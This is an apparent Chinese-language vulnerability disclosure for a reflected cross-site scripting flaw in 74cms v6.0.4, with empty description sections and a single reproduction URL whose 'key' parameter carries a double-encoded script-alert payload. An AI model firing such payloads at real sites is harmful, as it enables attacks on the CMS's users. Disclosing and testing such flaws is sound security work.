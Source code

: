 74cms v6.0.4 反射型xss
======================

一、漏洞简介
------------

二、漏洞影响
------------

74cms v6.0.4

三、复现过程
------------

    http://www.0-sec.org/index.php?m=&c=help&a=help_list&key=137244gq1lw%253cscript%253ealert%25281%2529%253c%252fscript%253edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88
